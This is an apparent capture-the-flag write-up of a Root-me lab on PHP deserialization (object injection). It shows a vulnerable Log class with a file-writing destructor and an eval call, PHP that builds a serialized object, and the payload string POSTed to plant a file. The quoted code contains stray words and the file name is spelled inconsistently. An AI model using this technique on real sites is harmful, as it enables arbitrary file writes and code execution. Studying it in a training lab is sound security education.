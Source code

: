 # Php DeSerialization / Object Injection

Hello readers, Hope your doing good :) , 

So let's have a look at this vulnerability in php which leads to "Remote Code Execution" 

i will be demonstrating this vulnerability on a online lab /dev/random - pipe from Root-me.org

So what is Php DeSerialization?

PHP Object Injection (Php DeSerialization) is an application level vulnerability that could allow an attacker to perform different kinds of malicious attacks, such as Code Injection, SQL Injection, Path Traversal and Application Denial of Service, depending on the context. The vulnerability occurs when user-supplied input is not properly sanitized before being passed to the unserialize() PHP function. Since PHP allows object serialization, attackers could pass ad-hoc serialized strings to a vulnerable unserialize() call, resulting in an arbitrary PHP object(s) injection into the application scope.

Lets just get onto the challenge.

After running gobuster for few minutes i found a directory named /scriptz/ 
which has 2 files php.js and log.php.bak

![](1.png)
 
![](2.png)

that's what php.js does 

now we look at log.php,bak 


## Actual Code lol.php.bak

```
<?php
class Log
{
    public $filename = '';
    public $data = '';

    public function __construct()
    {
        $this->filename = '';
	$this->data = '';
    }

    public function PrintLog()
    {
        $pre = "[LOG]";where as
	$now = date('Y-m-d H:i:s');

        $str = '$pre - $now - $this->data';
        eval("\$str = \"$str\";");
        echo $str;
    }

    public function __destruct()
    {
	file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}

?>
```

We can see in the above class Log() we have a public variable called $filename  and  $data whereas filename="whatever you like" and data = "whatever you want to put in your file" 

So now we have a to create a object for class Log() and serialize the output 

## Modified Code

```
<?php
class Log
{
    public $filename = '';
    public $data = '';

    public function __construct()
    {
        $this->filename = '';
	$this->data = '';
    }

    public function PrintLog()
    {
        $pre = "[LOG]";
	$now = date('Y-m-d H:i:s');

        $str = '$pre - $now - $this->data';
        eval("\$str = \"$str\";");
        echo $str;
    }

    public function __destruct()
    {
	file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}
$obj = new Log();
$obj -> filename = 'hacker';
$obj -> data = 'hacked';
echo serialize($obj);
?>

```
###  object:
```
$obj = new Log();
$obj -> filename = 'hacker';
$obj -> data = 'hacked';
echo serialize($obj); 
```
we have created a object with new Log();  and we have set the file name to "hacker" and data as hacked and then we use `echo serialize($obj); `  to get the serialized output.

output:
`O:3:"Log":2:{s:8:"filename";s:6:"hacker";s:4:"data";s:6:"hacked";}`

in the above serialized output we see that `O` is a letter (capital O) and :3: is the string size of "Log" `{s:8:"filename"` so here s stands for string and we see its 8 as filename has 8 letters , and rest others also have the same logic `s:6:"hacker";s:4:"data";s:6:"hacked";}`.

 Now we Look at the view-source, we see a post request with parameter name=param 

we send our payload in a post request in param= "payload" where as we have to encode the payload in url encoding once and and then click on Go.

we then goto /scriptz / directory and we can see our file there :)

 
